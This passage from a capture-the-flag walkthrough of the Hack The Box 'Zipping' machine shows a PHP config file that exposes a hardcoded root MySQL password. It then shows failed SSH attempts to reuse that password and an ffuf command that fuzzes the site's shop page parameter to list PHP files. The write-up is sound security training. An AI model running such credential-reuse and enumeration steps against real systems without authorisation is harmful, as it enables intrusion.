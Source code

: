 It's connecting as `root`

```php
<?php
function pdo_connect_mysql() {
    // Update the details below with your MySQL details
    $DATABASE_HOST = 'localhost';
    $DATABASE_USER = 'root';
    $DATABASE_PASS = 'MySQL_P@ssw0rd!';
    $DATABASE_NAME = 'zipping';
    try {
        return new PDO('mysql:host=' . $DATABASE_HOST . ';dbname=' . $DATABASE_NAME . ';charset=utf8', $DATABASE_USER, $DATABASE_PASS);
    } catch (PDOException $exception) {
        // If there is an error with the connection, stop the script and display the error.
        exit('Failed to connect to database!');
    }
}
// Template header, feel free to customize this
...
?>
```

Check password reuse, failed

```bash
┌──(bravosec㉿fsociety)-[~/htb/Zipping]
└─$ cssh root@zipping.htb 'MySQL_P@ssw0rd!'
Warning: Permanently added 'zipping.htb' (ED25519) to the list of known hosts.
Permission denied, please try again.

┌──(bravosec㉿fsociety)-[~/htb/Zipping]
└─$ cssh rektsu@zipping.htb 'MySQL_P@ssw0rd!'
Warning: Permanently added 'zipping.htb' (ED25519) to the list of known hosts.
Permission denied, please try again.
```


#### Dump php files under `/shop/`

Find php files from `/shop/index.php?page=` endpoint

```bash
ffuf -c -u 'http://zipping.htb/shop/index.php?page=FUZZ' -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -fs 2615 -o ffuf_page.json
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Zipping]
└─$ cat ffuf_page.json|jq '.results[].input.FUZZ' -r | tee shop_php.todump
index
cart
product
products
functions
placeorder
```
